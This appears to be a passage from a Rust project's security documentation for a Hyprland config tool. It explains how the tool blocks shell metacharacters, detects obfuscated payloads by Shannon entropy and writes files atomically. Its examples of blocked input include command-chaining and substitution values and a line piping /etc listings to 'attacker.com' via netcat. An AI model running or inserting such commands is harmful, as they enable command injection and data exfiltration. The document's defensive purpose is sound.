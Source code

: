 **Rationale**: These characters enable command chaining, piping, and substitution.

**Example**:
```bash
# BLOCKED: Semicolon enables command chaining
firefox; whoami

# BLOCKED: Pipe enables data exfiltration
ls /etc | nc attacker.com 1234

# BLOCKED: Backticks enable command substitution
firefox `whoami`
```

### 3. Shannon Entropy Detection

**Innovation**: Detects obfuscated payloads using information theory.

**Algorithm** (using [HashMap](https://doc.rust-lang.org/std/collections/struct.HashMap.html)):
```rust
fn shannon_entropy(data: &str) -> f64 {
    let mut frequencies = HashMap::new();
    for byte in data.bytes() {
        *frequencies.entry(byte).or_insert(0.0) += 1.0;
    }

    let len = data.len() as f64;
    frequencies.values()
        .map(|&count| {
            let p = count / len;
            -p * p.log2()
        })
        .sum()
}
```

**Thresholds** (empirically validated):
- **Base64**: 4.5 bits/character
- **Hex**: 3.5 bits/character
- **Minimum Length**: 8 characters (reduces false positives)

**Detection Order**: Hex before Base64 (hex alphabet ⊂ base64 alphabet).

**Deep Dive**: For a comprehensive technical analysis including mathematical foundations, empirical validation methodology, theory vs. practice gap analysis, and complete test suite results (30/30 passing), see [ENTROPY_DETECTION.md](docs/ENTROPY_DETECTION.md) (929 lines).

### 4. [Atomic](https://en.wikipedia.org/wiki/Atomicity_(database_systems)) File Operations

**Implementation**: `atomic-write-file` crate

**Sequence**:
1. Write to temporary file (`.hyprland.conf.tmp`)
2. Call `fsync()` to flush to disk
3. Atomic `rename()` operation (OS guarantee)
